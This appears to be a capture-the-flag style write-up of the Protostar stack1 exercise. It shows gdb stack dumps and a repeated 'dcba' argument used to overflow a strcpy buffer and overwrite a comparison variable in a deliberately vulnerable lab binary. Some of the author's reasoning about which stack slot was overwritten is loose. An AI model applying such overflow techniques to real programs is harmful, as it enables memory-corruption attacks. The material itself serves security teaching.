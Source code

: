 I simple need to find a way to force an area in the stack, where currently exist `0x00000000` (default output) to equal `0x61626364`. As the stack runs bottom up, we need to insert the values `0x64636261` what are `dcba` in ascii. 

```python
>>> chr(0x64)
'd'
>>> chr(0x63)
'c'
>>> chr(0x62)
'b'
>>> chr(0x61)
'a'
```

I added breakpoints to the `call   0x8048368 <strcpy@plt>` and `mov    eax,DWORD PTR [esp+0x5c]` lines, so that I can see the stack pre input, post input and pre comparison.

When run with `set args dcba` we can see a few things:
```bash
0xbffff760:     0xbffff77c      0xbffff9a4      0xb7fff8f8      0xb7f0186e
0xbffff770:     0xb7fd7ff4      0xb7ec6165      0xbffff788      0x61626364
0xbffff780:     0xb7fd7f00      0x080496fc      0xbffff798      0x08048334
0xbffff790:     0xb7ff1040      0x080496fc      0xbffff7c8      0x08048509
0xbffff7a0:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffff7c8
0xbffff7b0:     0xb7ec6365      0xb7ff1040      0x080484fb      0x00000000
0xbffff7c0:     0x080484f0      0x00000000      0xbffff848      0xb7eadc76
0xbffff7d0:     0x00000002      0xbffff874      0xbffff880      0xb7fe1848
0xbffff7e0:     0xbffff830      0xffffffff      0xb7ffeff4      0x08048281
0xbffff7f0:     0x00000001      0xbffff830      0xb7ff0626      0xb7fffab0
0xbffff800:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff810:     0xbffff848      0x23a0868e      0x09f7509e      0x00000000
```

In the second line we see `0x61626364` and we see two lines with `0x00000000` within them, i assume to be the targets to buffer overflow into. I overflowed the stack right up to the first `0x00000000` on line `0xbffff7b0` and voila, we have the desired output!
```bash
(gdb) set args dcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcba
(gdb) r
Starting program: /opt/protostar/bin/stack1 dcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcbadcba
eax            0xbffff73c       -1073744068
ecx            0xe3ef9174       -470838924
edx            0x2      2
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff720       0xbffff720
ebp            0xbffff788       0xbffff788
esi            0x0      0
edi            0x0      0
eip            0x80484a2        0x80484a2 <main+62>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffff720:     0xbffff73c      0xbffff964      0xb7fff8f8      0xb7f0186e
0xbffff730:     0xb7fd7ff4      0xb7ec6165      0xbffff748      0xb7eada75
0xbffff740:     0xb7fd7ff4      0x080496fc      0xbffff758      0x08048334
0xbffff750:     0xb7ff1040      0x080496fc      0xbffff788      0x08048509
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0x080484fb      0x00000000
0xbffff780:     0x080484f0      0x00000000      0xbffff808      0xb7eadc76
0xbffff790:     0x00000002      0xbffff834      0xbffff840      0xb7fe1848
```